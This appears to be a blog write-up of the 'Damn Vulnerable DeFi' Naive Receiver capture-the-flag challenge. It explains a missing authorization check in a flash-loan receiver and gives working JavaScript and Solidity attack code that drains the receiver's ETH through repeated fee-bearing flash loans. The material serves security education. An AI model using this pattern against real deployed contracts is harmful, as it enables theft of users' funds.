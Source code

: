 ```yaml
---
title: Damn vulnerable defi Challenge2 naive receiver
date: 2023-03-22 19:02:31
tags:
  - solidity
  - damnvulnerabledefi
  - defi
  - CTFs
categories:
  - solidity
---
```


## overview

There’s a pool with 1000 ETH in balance, offering flash loans. It has a fixed fee of 1 ETH.
A user has deployed a contract with 10 ETH in balance. It’s capable of interacting with the pool and receiving flash loans of ETH.
Take all ETH out of the user’s contract. If possible, in a single transaction.

### how to get it started

1. git clone [github repo](https://github.com/tinchoabbate/damn-vulnerable-defi/tree/v3.0.0)
2. yarn install
3. fill your code in \*.challenge.js
4. run your script via hardhat tools

Let's jump into the naive receiver case solidity code:

## [[source code]](https://github.com/tinchoabbate/damn-vulnerable-defi/tree/v3.0.0/contracts/naive-receiver) consist of 2 solidity files:

- FlashLoanReceiver.sol
- NaiveReceiverLenderPool.sol

### code bug

The issue here is that the user contract does not authenticate the user to be the owner, so anyone can just take any flash loan on behalf of that contract.
We can interact with pool contract directly to drain user's contract like this:

```javascript
const ETH = await pool.ETH();
for (let i = 0; i < 10; i++) {
  await pool.connect(player).flashLoan(receiver.address, ETH, 0, "0x");
}
```

Or we can delpoy an attack contract to invoking pool contract:

```javascript
interface INaiveReceiverLenderPool{
    function fixedFee(address token, uint256) external pure returns (uint256);
    function flashLoan(address receiver,address token, uint256 amount,bytes calldata data) external returns (bool);
}

contract AttackContract {
    address private constant ETH = 0xEeeeeEeeeEeEeeEeEeEeeEEEeeeeEeeeeeeeEEeE;

    function attack(INaiveReceiverLenderPool pool,address payable receiver) external {
        for(uint i=0;i<10;i++){
            pool.flashLoan(receiver, ETH,0,"0x");
        }
    }
}
```

After we deployed the attack contract,invoke it using javascript

```javascript
const AttackFactory = await ethers.getContractFactory("AttackContract", player);
attack = await AttackFactory.deploy();
await attack.attack(pool.address, receiver.address);
```
